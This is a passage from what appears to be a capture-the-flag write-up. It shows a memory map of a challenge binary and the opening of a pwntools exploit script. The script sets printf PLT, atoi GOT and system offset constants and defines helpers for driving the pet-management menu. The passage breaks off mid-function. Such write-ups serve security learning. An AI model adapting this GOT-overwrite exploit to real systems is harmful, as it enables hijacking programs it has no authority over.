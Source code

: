 ```
0x00007efe40739000 0x00007efe4073c000 rw-p	mapped
0x00007efe4073c000 0x00007efe4073d000 r--p	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007efe4073d000 0x00007efe4073e000 rw-p	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007efe4073e000 0x00007efe4073f000 rw-p	mapped
0x00007ffef5647000 0x00007ffef5668000 rw-p	[stack]
0x00007ffef56aa000 0x00007ffef56ac000 r--p	[vvar]
0x00007ffef56ac000 0x00007ffef56ae000 r-xp	[vdso]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

Here is the full exploit:
```
from pwn import *

#Start the target process, and attach gdb
target = process('./cat')
#gdb.attach(target)

#Establish the needed constants for later
printf_plt = p64(0x4006d0)
atoi_got = p64(0x602068)
sys_offset = -0xb31f0

#Establish the various functions which we will need to interact with the program
def create_pet(name, pet_type, age):
	target.sendline('1')
	target.recvuntil('>')
	target.sendline(name)
	target.recvuntil('>')
	target.sendline(pet_type)
	target.recvuntil('>')
	target.sendline(age)
	target.recvuntil('>')

def create_pet_post_write(name, pet_type, age):
	target.sendline('1\x00')
	target.recvuntil('>')
	target.sendline(name)
	target.recvuntil('>')
	target.sendline(pet_type)
	target.recvuntil('>')

def edit_pet(index, name, pet_type, age, modify):
	target.sendline('2')
	target.recvuntil('>')
	target.sendline(index)
	target.recvuntil('>')
	target.sendline(name)
	target.recvuntil('>')
	target.sendline(pet_type)
	target.recvuntil('>')
	target.sendline(age)
	target.recvuntil('>')
	target.sendline(modify)
	target.recvuntil('>')

def edit_pet_post_write(index, name, pet_type, age, modify):
	target.sendline('22\x00')
	target.recvuntil('>')
	target.sendline(index)
	target.recvuntil('>')
	target.sendline(name)
	target.recvuntil('>')
	target.sendline(pet_type)
```